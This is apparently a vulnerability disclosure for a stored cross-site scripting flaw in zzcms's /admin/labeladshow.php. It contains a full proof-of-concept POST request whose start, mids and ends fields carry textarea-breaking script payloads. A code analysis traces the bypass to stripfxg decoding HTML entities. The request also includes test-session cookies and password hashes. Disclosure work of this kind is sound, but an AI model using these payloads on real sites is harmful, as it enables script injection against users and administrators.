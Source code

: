 ### /admin/labeladshow.php exists stored xss

**Vulnerability Process**

Visit /admin/labeladshow.php

![image-20240826175019738](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240826175019738.png)

Then enter the parameters

**POC**

```java
POST /admin/labeladshow.php?action=add HTTP/1.1
Host: zzcms:8786
Content-Length: 267
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://zzcms:8786
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://zzcms:8786/admin/labeladshow.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: tablename=zzcms_zhaoshangclass; askclassid=0; PHPSESSID=4pj41bdnhl1msnbrl2lljv1iqm; __51cke__=; xywpwx_bakusername=admin; xywpwx_snsjjssbdvqm=aca496e77ae7ceff46c2f8e72f4235d5; qebak_efourcheck=be67da7f3e3c39cd439799a20c67f8b4; XDEBUG_SESSION=PHPSTORM; xywpwx_bakrnd=zPwzzERUvdP4; xywpwx_loginebakckpass=03269d863bac377ff8cfb81722e356e3; xywpwx_baklogintime=1724589372; PassWord=4297f44b13955235245b2497399d7a93; UserName=aaaa; userid=1; __tins__713776=%7B%22sid%22%3A%201724603456590%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201724605579607%7D; __51laig__=34
Connection: keep-alive

title=1&title_old=&bigclassid=&smallclassid=&numbers=1&column=1&start=</textarea><script>alert(1)</script><textarea>&mids=</textarea><script>alert(2)</script><textarea>&ends=</textarea><script>alert(3)</script><textarea>&Submit=%E6%B7%BB%E5%8A%A0%2F%E4%BF%AE%E6%94%B9
```

The default is 1.txt then click on 1.txt

![image-20240826175222468](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240826175222468.png)

![image-20240826175232742](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240826175232742.png)

Can pop up 1, 2, 3

This means that xss exists at all three points

Code Analysis

Actually, there is a global filter for our xss.

But here the incoming parameter is passed through the stripfxg function

```java
$start=stripfxg($_POST["start"],true);
$mids=stripfxg($_POST["mids"],true);
$ends=stripfxg($_POST["ends"],true);
```

看到stripfxg函数

```java
function stripfxg($string,$htmlspecialchars_decode=false,$nl2br=false) {//去反斜杠 
$string=stripslashes($string);//去反斜杠,不开get_magic_quotes_gpc 的情况下，在stopsqlin中都加上了，这里要去了
if ($htmlspecialchars_decode==true){
$string=htmlspecialchars_decode($string,ENT_QUOTES);//转html实体符号
}
if ($nl2br==true){
$string=nl2br($string);
}
return $string; 
}
```

You can see that the htmlspecialchars_decode function is used to decode our input, resulting in no filtering of xss.

Then after the

```java
    <tr> 
      <td align="right" class="border" >解释（开始）</td>
      <td class="border" ><textarea name="start" cols="70" rows="10" id="start" ><?php echo $start?></textarea></td>
    </tr>
    <tr> 
      <td align="right" class="border" >解释（循环）</td>
      <td class="border" ><textarea name="mids" cols="70" rows="5" id="mids" ><?php echo $mids ?></textarea>      </td>
    </tr>
    <tr> 
      <td align="right" class="border" >解释（结束）</td>
      <td class="border" ><textarea name="ends" cols="70" rows="20" id="ends"><?php echo $ends ?></textarea></td>
    </tr>
```

Again, we entered our parameters into the page
